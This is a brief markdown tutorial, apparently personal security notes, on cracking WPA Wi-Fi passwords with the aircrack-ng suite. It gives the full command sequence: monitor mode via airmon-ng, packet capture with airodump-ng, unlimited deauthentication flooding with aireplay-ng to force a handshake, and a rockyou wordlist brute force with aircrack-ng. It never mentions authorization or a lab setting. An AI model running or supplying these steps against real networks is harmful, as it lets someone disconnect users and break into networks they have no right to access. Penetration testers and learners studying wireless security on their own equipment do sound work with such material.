 Since WPA is a strong protocol we can't simply hack it, but we can bruteforce it!

### Useful Commands

First we want to turn on the interface in monitor mode, given that the monitor mode is supported by your card, but we have to kill the processes that interfere with the process of turning the interface into monitor mode.

```bash
# Kill the processes that interfere with starting wlan0 in monitor mode
sudo ifconfig wlan0 down
sudo airmon-ng check kill
# Now put the interface in monitor mode, put the interface up and restart network manager and 
sudo airmon-ng start wlan0
sudo service NetworkManager restart
sudo ifconfig wlan0 up
```

To check if the monitor mode is on and working, we can use the following command:

```bash
sudo iwconfig
```
Now we might need to unplug the USB device then plug it back.

Then we run the following command to start capturing packets:

```bash
sudo airodump-ng wlan0
# To only display the access point that we want, we can use the following command:
sudo airodump-ng wlan0 -d <BSSID>
```

Now we can use the following command to write the captures to a file:

```bash
sudo airodump-ng -w <name of file> -c <channel> --bssid <BSSID> wlan0
```

Next ,we will disconnect a device from a network using deauth packet so we can capture a handshake, and to do so we will use the following command:

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0
```

Finally we will start the brute forcing by using the following command:

```bash
aircrack-ng <.cap file> -w /usr/share/wordlists/rockyou.txt
```

Note: if we want to go back into managed mode, we can use the following command:

```bash
sudo airmon-ng stop wlan0
```